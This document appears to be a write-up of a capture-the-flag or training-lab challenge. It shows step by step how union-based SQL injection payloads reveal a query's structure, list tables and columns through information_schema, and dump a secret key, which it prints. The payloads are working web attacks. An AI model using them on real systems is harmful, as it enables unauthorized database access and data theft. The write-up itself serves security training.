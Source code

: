 # Challenge - 1

In this challenge we have to dump a secret key in an unknown column in an unknown table in the database 'CHALLENGES'. This is a union based challenge and we have to get the key in less than 10 attempts

references :
`http://www.securitytube.net/video/4208`

## Initial Analysis

First we have to find out how the developer has given the query so we try giving id the value

```sql
0' or 1=1 --+ 
```

which gives us a login name and a password.

To make sure it is correct we try with id=

```sql
0" or 1=1 --+
```

which outputs nothing. So the query must be like

```sql
select login_name,password from table_name where id='input' 
```

we still don't know the table name or the column names.

now as we know the query structure we can try union by giving: id=

```sql
0' union select 1,2,3 --+
```

which gives us

```ABAP
Your Login name:2
Your Password:3
```

to recheck we try giving values

```sql
0' union select 1,4,5 --+
```

and as expected we get

```ABAP
Your Login name:4
Your Password:5
```

So this query will dump anything we give in the place of 2 and 3.

We can use the same method to dump table_name,column_name and secret key

### Solving

Now we can find the table name using

```sql
0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES'; --+
```

which gives us the table name :
**usauc12dne**

Now we can find the columns in the table using

```sql
0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='usauc12dne' and table_schema='CHALLENGES'; --+
```

we get 4 column names:
**id,sessid,secret_UORS,tryy**

The secret key can be in any of these columns but we can always go for the most suspicious one and print the secret key using:

```sql
0' union select 1,2,group_concat(secret_UORS) from usauc12dne; --+
```

We get the secret key:
**hcZo9W8NUjESrCoWaEyyyoV6**
